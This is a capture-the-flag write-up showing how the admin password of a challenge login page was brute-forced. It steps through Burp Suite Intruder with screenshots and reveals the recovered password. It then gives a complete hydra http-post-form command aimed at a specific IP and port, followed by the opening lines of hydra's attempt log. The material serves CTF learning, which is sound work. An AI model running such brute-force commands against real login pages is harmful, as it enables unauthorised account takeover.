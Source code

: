 Since the question says about ```admin``` then thats a user of the web page.
I used burp suite to solve the challenge and letter on i used interesting tool called hydra.

:::info
 **Burp suit.**
:::

**I will show some few steps here because i believe you are able to start,capture,intercept on burpsuite.**

**Login page to brute froce.**

![](https://i.imgur.com/1KSgCkV.png)


**Capture request from the web page and sent it to intruder.**

![](https://i.imgur.com/4Qm0peR.png)


**Clear all unnecessary and leave only required parts, for our case we need to bruteforce password field.**

![](https://i.imgur.com/E7WvzaR.png)

**Load the password file and start the attack.**

![](https://i.imgur.com/htZnLv2.png)

**Once it finishes, filter with a common error. In our case the common error for all unsuccessful login was** ```LOGIN FAILED```

![](https://i.imgur.com/YUB9nC5.png)

**Select Negative search to allow burp to filter pages and return those with no ```LOGIN FAILED``` Error message.**

![](https://i.imgur.com/7bhUoen.png)

**By doing so we get request number 501 has what we need and the passowrd is** ```chocolatelimao```

![](https://i.imgur.com/Ytl2b2y.png)

**Login to get flag.**

![](https://i.imgur.com/aaBmIUn.png)




:::info
 Using command line tool **hydra** .
:::
```
┌──(gemstone㉿kali)-[~]
└─$ hydra -l admin -P ~/Downloads/passlist\(1\).txt 129.80.41.223 -s 8889 http-post-form "/:username=^USER^&password=^PASS^&submit=submit:F=LOGIN FAILED" -V -I         
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-23 04:00:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1284 login tries (l:1/p:1284), ~81 tries per task
[DATA] attacking http-post-form://129.80.41.223:8889/:username=^USER^&password=^PASS^&submit=submit:F=LOGIN FAILED
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolate!1" - 1 of 1284 [child 0] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolate!%!$" - 2 of 1284 [child 1] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "cafeconchocolate" - 3 of 1284 [child 2] (0/0)
```